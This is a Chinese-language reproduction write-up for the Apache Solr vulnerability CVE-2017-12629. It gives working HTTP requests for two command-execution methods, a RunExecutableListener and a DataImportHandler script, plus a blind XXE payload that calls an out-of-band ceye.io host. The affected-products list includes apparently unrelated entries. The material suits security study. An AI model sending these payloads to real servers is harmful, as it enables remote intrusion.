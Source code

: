 ```yaml
---
title: （CVE-2017-12629）Apache Solr rce&xxe 漏洞
id: zhfly2824
---
```


# （CVE-2017-12629）Apache Solr rce&xxe 漏洞

## 一、漏洞简介

## 二、漏洞影响

Redhat Single Sign-On 7.0
+ Redhat Linux 6.2 E sparc
+ Redhat Linux 6.2 E i386
+ Redhat Linux 6.2 E alpha
+ Redhat Linux 6.2 sparc
+ Redhat Linux 6.2 i386
+ Redhat Linux 6.2 alpha
Redhat JBoss Portal Platform 6
Redhat JBoss EAP 7 0
Redhat Jboss EAP 6
Redhat JBoss Data Grid 7.0.0
Redhat Enterprise Linux 6
+ Trustix Secure Enterprise Linux 2.0
+ Trustix Secure Linux 2.2
+ Trustix Secure Linux 2.1
+ Trustix Secure Linux 2.0
Redhat Collections for Red Hat Enterprise Linux 0
Apache Solr 6.6.1
Apache Solr 6.6
Apache Solr 6.5.1
Apache Solr 6.5
Apache Solr 6.4
Apache Solr 6.3
Apache Solr 6.2
Apache Solr 6.6
Apache Solr 6.3
Apache Solr 6.0
Apache Lucene 0

## 三、复现过程

### rce 姿势一

*   首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 158 `{“add-listener”:{“event”:“postCommit”,“name”:“newlistener”,“class”:“solr.RunExecutableListener”,“exe”:“sh”,“dir”:"/bin/",“args”:["-c", “touch /tmp/success”]}}` 
```

![image](../img/52b1a1102d82112805728fcf6ccd0fab.png)

在solr管理界面新建了listen

![image](../img/1426776e5c8be3f15b8e13d972b695e6.png)

*   然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: 10.0.83.79:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15 `[{“id”:“test”}]` 
```

![image](../img/42e8f2bcece87a611e4e4405b2d9e775.png)

### rce 姿势二

![image](../img/798637eb1295f5be662bece6f6dd4b2b.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig> 
```

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr `command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%[2Fstackoverflow.com](http://2Fstackoverflow.com)%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport` 
```

![image](../img/3a696fcbe8a7cd70ada3690a33882d96.png)

### xxe

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
```

使用`ceye`

发送payload

![image](../img/ede1dce47c9a99d19e95125710bc2c0e.png)

ceye接收

![image](../img/68e13c99a3323a371477ae6d2b419f5e.png)

## 参考链接

> https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/